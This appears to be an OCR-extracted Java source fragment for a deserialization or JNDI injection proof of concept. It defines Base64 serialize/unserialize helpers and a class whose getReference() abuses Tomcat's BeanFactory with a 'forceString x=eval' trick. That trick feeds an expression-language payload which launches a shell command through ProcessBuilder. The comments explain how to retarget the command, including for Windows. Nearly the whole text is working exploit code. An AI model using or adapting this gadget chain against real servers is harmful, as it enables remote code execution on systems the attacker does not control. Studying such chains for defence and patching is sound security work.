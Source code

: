 ```java

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    private static class NotSerializable implements ConnectionPoolDataSource, Referenceable {

        private String classFactory;
        private String classFactoryLocation;

        public NotSerializable() {

            this.classFactory = "BeanFactory";
            this.classFactoryLocation = null;
        }

        public NotSerializable(String classFactory, String classFactoryLocation) {

            this.classFactory = classFactory;
            this.classFactoryLocation = classFactoryLocation;
        }

        @Override
        public Reference getReference() throws NamingException {

            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory", null);
            //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
            ref.add(new StringRefAddr("forceString", "x=eval"));
            //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
            ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','\"open -a Calculator\"']).start()\")"));

            return ref;
        }

        @Override
        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }

        @Override
        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }
```
